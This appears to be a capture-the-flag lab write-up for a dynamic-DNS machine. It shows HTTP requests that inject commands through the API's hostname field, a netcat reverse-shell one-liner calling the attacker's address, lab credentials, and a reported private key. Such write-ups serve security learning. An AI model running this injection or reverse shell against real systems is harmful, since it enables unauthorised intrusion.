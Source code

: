 ## Info 
### Credential
 User  | Password | Service | Note
-------|----------|---------|------
dynadns|sndanyd   |         |
dns    |          |         |

### System
- domain: `dnsalias.htb`, `dynamicdns.htb`, `no-ip.htb`, `dyna.htb`
- DNS: `dns1.dyna.htb`, `hostmaster.dyna.htb`

### HTTP
> We are providing dynamic DNS for anyone with the same API as no-ip.com has.


## Path
### User
1. According to the webpage, it has the same API as no-ip.com, so we can use the same API to register a dynamic DNS.
```
GET /nic/update?hostname=ice1187.no-ip.htb&myip=10.10.16.22 HTTP/1.1
Host: no-ip.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Authorization: Basic ZHluYWRuczpzbmRhbnlk
$ nslookup
> server 10.10.10.244
Default server: 10.10.10.244
Address: 10.10.10.244#53
> ice1187.no-ip.htb
Server:         10.10.10.244
Address:        10.10.10.244#53

Name:   ice1187.no-ip.htb
Address: 10.10.16.22
```
2. From `dig`, I found the domain name of the DNS server.
```
$ dig TXT ice1187.no-ip.htb @$ip
; <<>> DiG 9.16.1-Ubuntu <<>> TXT ice1187.no-ip.htb @10.10.10.244

no-ip.htb.              60      IN      SOA     dns1.dyna.htb. hostmaster.dyna.htb. 2021030304 21600 3600 604800 60
```
3. When registering to `dyna.htb`, it shows an error.
```
Request: 
GET /nic/update?hostname=ice1187.dyna.htb&myip=10.10.16.22 HTTP/1.1

Response:
911 [wrngdom: dyna.htb]
```
4. Fuzzing the parameter of the API shows it execute `nsupdate` to update the DNS information, so possible command injection here.
```
$ ffuf -u "http://$ip/nic/update?hostname=FUZZa.no-ip.htb" -H "Authorization: Basic ZHluYWRuczpzbmRhbnlk" -w /opt/SecLists/Fuzzing/special-chars.txt
#                       [Status: 200, Size: 16, Words: 3, Lines: 2]
&                       [Status: 200, Size: 16, Words: 3, Lines: 2]
:                       [Status: 200, Size: 22, Words: 3, Lines: 2]
;                       [Status: 200, Size: 22, Words: 3, Lines: 2]
"                       [Status: 200, Size: 75, Words: 6, Lines: 5]   <- Size is much larger
```
```
Burp: 
Request:
	GET /nic/update?hostname="a.no-ip.htb

Response:
	server 127.0.0.1
	zone no-ip.htb
	update delete a.no-ip.htb
	good 10.10.16.22

Request:
	GET /nic/update?hostname=;a.no-ip.htb

Response:
	911 [nsupdate failed]
```
5. Use command injection to get reverse shell.
```
Request:
	GET /nic/update?hostname=";id;a.no-ip.htb
Response:
	server 127.0.0.1
	zone no-ip.htb
	update delete 
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	good 10.10.16.22
```
6. Use `rev.py` to get shell.
```
$ python3 rev.py
cmd: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.22 13337 >/tmp/f
```
7. In `/home/bindmgr` found `suport-case-XXXXXX` directory. There is an openssh private key in the `XXXXX-debuggin.script`, but not useful at this time.
8. Found the hostname is `dynstr.dyna.htb`.

#### TODO
1. SSH GASSAPI Authentication
